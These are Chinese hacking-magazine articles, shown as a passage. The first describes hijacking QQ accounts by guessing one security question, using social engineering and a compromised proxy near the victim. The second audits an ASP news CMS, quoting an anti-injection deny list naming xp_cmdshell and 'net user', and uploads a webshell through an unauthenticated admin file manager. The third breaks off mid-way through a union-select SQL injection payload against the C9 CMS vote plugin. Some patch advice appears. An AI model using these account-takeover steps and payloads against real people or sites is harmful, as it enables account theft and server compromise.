2. 填好他的QQ号码和验证码，点“下一步”。
3. 选择第一个“密保问题”，就来到了最关键的一步。
4. 然后我就开始猜问题一的答案，猜了半天也没对……别急，后面还有一个“换个问题”。当我选择换个问题时，出现了“他配偶的姓名”。
5. 嘿嘿，他是做点卡交易平台的，他配偶的姓名在平台网站上有。
6. 待我填上他老婆的名字时，顺利来到修改页面，可以修改密码了。

没想到这么容易就能改了他的密码。我改了他的密码，他还是可以通过“密码找回”来寻找自己的QQ密码，于是我就想，要是把三个密码保护问题搞定了，QQ号不就成为我的吗？

写到这里估计编辑和小黑们说我有骗稿费之嫌了，接着往下看，最精彩的发现即将出现！

我想既然只要知道了一个密码保护问题就能改密码，而且我很了解我的许多朋友，只要猜对他们的一个密码保护问题就能改掉他们的QQ密码啦？马上实验，结果是许多本地的朋友都能成功，但有几个在回答时却要求三个问题都要回答。

我明白后才发现：我和我的这些朋友都不在本地上班，常常在单位上网（异地），这样改密码就需要回答三个问题。而这个网吧的老板天天在本地，所以只要回答一个问题就能改掉他的密码！这就是腾讯所做的限制！

后来我回单位也做了测试，证实了只要是在常用登录地，回答对了一个问题就能改掉别人的QQ密码。如果我们想改掉某人的QQ密码，可以社工一下，然后确定他常常登录QQ的地方，找个他当地的肉鸡开个代理，就能改掉他的QQ密码了。

大家赶紧去加固一下自己的密码保护吧，防止自己的隐私泄露啊！最后想对我的女朋友霞说一声我爱你！

> **编辑点评：**
> 文章的亮点在最后，大家仔细读一遍。

```asp
Response.Write "<div align='center'>没有新闻!</div>"
Response.End()
Else
    PageSortId = IsNs("tid")
End if
else
    Response.Redirect("/")
end if
%>
```

变量 id 用 isnumeric 函数强制转换，直接把注入语句和谐了。sort_id 虽然在这里没有过滤，但是在 include/function_Column.asp 文件中进行了一系列的转换，并且包含的文件 include/dsql.asp 是一个防注入文件，内容如下：

```asp
<%
'防止注入
dim qs,eric,iii
qs=lcase(request.servervariables("query_string"))
' response.write(qs)
dim deStr(18)
deStr(0)="net user"
deStr(1)="xp_cmdshell"
deStr(2)="/add"
deStr(3)="exec%20master.dbo.xp_cmdshell"
deStr(4)="net localgroup administrators"
deStr(5)="select"
deStr(6)="count"
deStr(7)="asc"
deStr(8)="char"
deStr(9)="mid"
deStr(10)="'"
deStr(11)="\""
deStr(12)=";"
deStr(13)="insert"
deStr(14)="delete"
deStr(15)="drop"
deStr(16)="truncate"
deStr(17)="from"
deStr(18)="%"
errc=false
for iii=0 to ubound(deStr)
    if instr(qs,deStr(iii))<>0 then
        errc=true
    end if
next
if errc then
    Response.Redirect("http://www.5177eat.com")
    response.end
end if
%>
```

过滤了大多数常用的 SQL 语句，尽管过滤的不是太全面，但是在双重过滤之下，注入漏洞就这样被扼杀了。唉，经过长时间苦闷研读，发现网站下大多数文件都是通过类似的方法进行过滤，看来注入真的是没有希望了。

## 二、无缘跨站，再遇挫折

正当我郁闷之时，发现系统提供了留言功能。填入如图 2 所示的跨站代码，发表后，失望的发现竟然不存在跨站。

既来之，则安之，还是分析它是怎么过滤的吧！通过查看网页的源代码发现发表留言的文件是 commen/commen.asp，相关代码如下：



```asp
<!--#include file="../include/config.asp"-->
<!--#include file="../include/News_conn.asp"-->
<!--#include file="../include/function.asp"-->
<!--#include file="../include/strutil.asp"-->
........省略........
<%
dim author,content,userip,tid,id,VerifyCode
VerifyCode=Trim(Request.Form("VerifyCode"))
if VerifyCode <> CStr(Session("GetCode")) then
    Response.Write("<script>alert('错误：\n验证码错误');history.back();</script>")
    Response.End()
end if
author=replace(trim(request.Form("author")),"'","")
if(checkForbidStr(author)=false) then // 调用 checkForbidStr 函数，过滤不文明字符
    response.Write("<script>alert('您的评论中含有非法字符！');history.back();</script>")
    response.End()
end if
author=tohtml(author) // 调用 tohtml 函数，将跨站符号转化为 URL 编码形式
content=replace(trim(request.Form("content")),"'","")
if(checkForbidStr(content)=false) then
    response.Write("<script>alert('您的评论中含有非法字符！');history.back();</script>")
    response.End()
end if
content=tohtml(content) // 调用 tohtml 函数，将跨站符号转化为 URL 编码形式
userip=GetIp()
tid=CInt(trim(request.Form("mode")))
id=CLng(trim(request.Form("id")))
if(content="" or len(content)<1) then
    response.Write("内容不能为空!")
    response.End()
end if
set rs=server.CreateObject("adodb.recordset")
rs.open "select top 1 * from commen order by id desc",conn,3,3
rs.addnew // 插入数据库
rs("username")=author
rs("content")=content
rs("moditime")=now
rs("tid")=tid
rs("articleid")=id
rs("userip")=userip
rs.update
rs.close
set rs=nothing
%>
```

为了节约“黑手”的版面，这里我简单说下，checkForbidStr、tohtml 函数均定义在 ../include/strutil.asp 文件中，checkForbidStr 函数过滤一些不文明的非法字符，而 tohtml 函数把用户提交的跨站符号：`&`、`<`、`>`、`'`、`\t`、`\r`、`\n`、`"`、`chr(13)&chr(10)` 转化为 URL 编码，然后插入数据库，此时寻找跨站漏洞受挫。

## 三、鸡肋暴库

看了下 include/News_conn.asp 文件，相关代码如下：

```asp
<%
'on error resume next // 容错语句被注释
News_DatabaseUrl=""&WebRootDir&"databaseUrl&"/"&News_Dataname&""
dim conn
'set conn=server.CreateObject("adodb.connection")
'conn.open "driver={Microsoft Access Driver (*.mdb)};dbq="&Server.MapPath(News_DatabaseUrl)
Set conn = Server.CreateObject("ADODB.Connection")
conn.Open "Provider=Microsoft.Jet.OLEDB.4.0; Data Source=" & Server.MapPath(News_DatabaseUrl) // 通过 OLEDB 连接
if Err.Number <> 0 then
    Response.Write("<script>alert('系统错误!\n\n数据库连接错误！请检查系统参数设置>>站点常量设置,或者/include/config.asp文件！');</script>")
    Response.End
end if
sub connclose
  conn.close
  set conn=nothing
end sub
%>
```

……省略………………

容错语句 “on error resume next” 被注释掉了，数据库通过 OLEDB 连接，其中的 Provider 和 Data Source 是 conn.Open 的两个参数。Provider 是用来指定连接数据库的 oledb 驱动程序，而 Data Source 指定的是要连接 Access 数据库的物理路径。Data Source 是以变量的方式赋值的，经测试无法爆出数据库路径，如图 3 所示。


图3 鸡肋爆库

唉！要是能爆出路径该多好啊，5177eatdata#/_info.asp 数据库文件并没有添加防下载表，虽说不能进行插马获得 WebShell，但至少可以下载下来查看管理员密码，然后登录。可残酷的现实是，这仅是个鸡肋。

## 四、惊现“无底洞”

研究这套系统 N 个小时，终于皇天不负有心人，让我找到了一个漏洞，并且是一个“无底洞”。怎么个“无底洞”呢？往下看你就知道了！

继续分析 /admin 下的文件，发现均包含 inc/Session.asp 进行 Session 验证，也未发现古老的 'or'='or' 漏洞。但读到 /admin/disk 目录时，不可思议的事情发生了，里面的全部文件均不存在 Session！这里以 driver.asp 的代码为例，如图 4 所示。怀着激动的心情访问 http://127.0.0.1/admin/disk/folder.asp，发现可以对硬盘进行管理，界面感觉很像精简版的大马，并且有网站的绝对路径，如图 5 所示。


图4 没有包含 Session 验证文件


图5 硬盘管理

由于在现实网络上的服务器中硬盘在一般情况下是不可以随便访问的，我们可以提交 http://127.0.0.1/admin/disk/folder.asp?fdr=网站目录，进入网站目录，如图 6 所示。

想必不用我多说了吧？直接点“上传文件”上传我们的大马，如图 7 所示（注意：在上传时不要带中文路径和中文文件名，否则会出错）。


图6 进入网站目录

上传后成功访问，如图 8 所示。

漏洞出来了，我还有些不明白，怎么会有 /disk 文件夹呢？而且是那么危险的功能。使用默认密码登录后台，我恍然大悟，如图 9 所示。

原来是“系统管理”提供的“我的电脑”功能，第一次见这种系统，无语中……


图7 上传大马


图8 成功访问大马


图9 原来是“我的电脑”

## 五、漏洞修补方案

这个漏洞真是让人汗颜，可以查看、删除、创建文件，并且一点验证机制都没有，说它是个“无底洞”一点也不过分。

临时的修补方案如下：

- 方案一：在 disk 子目录下所有文件里添加 `<!-- #include file="../inc/Session.asp" -->` 语句。
- 方案二：直接删除 disk 文件夹，以除后患（推荐）！

## 六、写在最后

个人感觉这套系统总体上来说安全性还是挺不错的，变量都经过了严密的过滤。但是程序员出现了一个严重的低级错误，百密一疏，酿成大祸，导致整站的沦陷。没有周密的安全审计就把源码发布，损人害己！

这次就写到这里吧，欢迎大家到 NoHack 的论坛 www.nohack.cn/bbs 找我进行技术交流，我的 ID 是 komy。借用一下宝地，希望爸妈身体健康，以后不再为我担心。还有我女朋友能够天天开心，祈祷我们能够在一起上学……

> 编辑点评：本文就是一个“功夫不负有心人”的典型代表，每当你觉得挖的时候快、快看再迈出一步，因为下一步，你可能就可以柳暗花明，茅塞顿开。



# C9 静态文章发布系统
**最新 0day 分析与利用**

图/马谷 张梁

- 从本文你可以学到：
  1. C9 静态文章发布系统最新 0day 分析
  2. 漏洞的利用

C9 静态文章发布系统全站静态显示，以前也出现过很多漏洞，随着时间的推移，其安全性越来越好了。不过最近又出现了安全漏洞，利用起来也很简单，最新的 2.1 正式版加入了一个 flash 投票系统，可能是作者没有考虑到安全问题，导致 flash 投票系统存在 SQL 注入漏洞。

### 一、漏洞分析

首先我们去 down.chinaz.com 下载一套最新的 C9 静态文章发布系统，我的是 2.1 正式版。然后在本地搭好测试环境，保证网站能正常访问。漏洞出现在 flash 投票系统，它由四个文件构成，在网站的 plug_vote 目录下，分别是 add.asp、xml.asp、showvote.js、flashvote.swf。add.asp 文件是投票文件，当我们投票时，它负责更新 plug_vote 表，我们来看看它是怎么传递变量的，如图 1。


图1 变量传递

从图1中我们可以看到，通过 request 函数先获得 voteid 变量，然后经过 funstr 函数过滤，再对我们的 cookie 进行判断，如果符合条件就放入 SQL 语句。funstr 这个函数在 fun/funlogic.asp 文件里，如图 2。


图2 funstr函数

从图2中我们可以看到，只是过滤了“<、>、空格、单引号”，但是对于整型变量的 SQL 注入是不需要这些符号的，这个文件是用的 update 语句，对于 access 数据库没有办法进行注入。我们再来看看另一个文件 xml.asp，它是怎么传递变量的，如图 3。

从图3中我们可以看到，通过 request 函数先获得 voteid 变量，然后经过 trim 函数和 funstr 函数过滤。如果 voteid 不等于空，就放入 SQL 语句执行。我们知道，trim 函数是过滤两边空格，而 funstr 函数只过滤了“<、>、空格、单引号”，这里的 voteid 变量又是整型的，对于整型 SQL 注入是可以不用单引号的。


图3 xml.asp

变量又是整型的，对于整型 SQL 注入是可以不用单引号的。

### 二、漏洞利用

我们提交 url：`http://127.0.0.1/plug_vote/xml.asp?voteid=1`，看看是不是能显示出投票结果。页面显示的是连接数据库错误，从 xml.asp 文件的源代码可以得出，由于系统默认时没有在后台设置投票内容，当 plug_vote 表里面没有内容，页面就会显示连接数据库错误。

网上很多网站刚用新的程序，可能也不会在后台设置投票内容，如果能查询出结果，随便用一个 SQL 注入工具就可以搞定了。现在这种情况下我们怎样来进行 SQL 注入呢？

经过测试，可以使用 union 联合查询来搞定。在这种默认情况下，plug_vote 表里面没有内容，我们可以通过 union 联合查询来返回管理员表内容。由于 plug_vote 表里面有 18 个字段，因此我们提交 url：`http://127.0.0.1/plug_vote/xml.asp?voteid=1%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%20user`，如图4。

